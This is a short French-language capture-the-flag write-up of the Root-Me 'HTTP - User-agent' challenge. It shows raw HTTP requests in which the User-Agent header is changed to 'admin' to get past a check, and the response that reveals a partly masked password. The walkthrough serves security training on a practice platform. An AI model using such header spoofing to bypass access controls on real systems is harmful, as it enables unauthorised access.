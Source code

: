 # HTTP - User-agent

## Procédure

1. Analyse de la page

Un message s'affiche : 

```
Wrong user-agent: you are not the "admin" browser!
```

2. Envoie d'une requête et analyse du header

```
GET /web-serveur/ch2/ HTTP/1.1
Host: challenge01.root-me.org
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

3. Modification du User-Agent

Le premier message nous indique que le navigateur utilisé doit être admin.

```
GET /web-serveur/ch2/ HTTP/1.1
Host: challenge01.root-me.org
Upgrade-Insecure-Requests: 1
User-Agent: admin
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

Réponse : 

```
HTTP/1.1 200 OK
Server: nginx
Date: Sat, 06 Jan 2024 13:14:11 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Content-Length: 269

<html><body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe><h3>Welcome master!<br/>Password: rrXXXXXXXXXXXAe27
</h3></body></html>
```

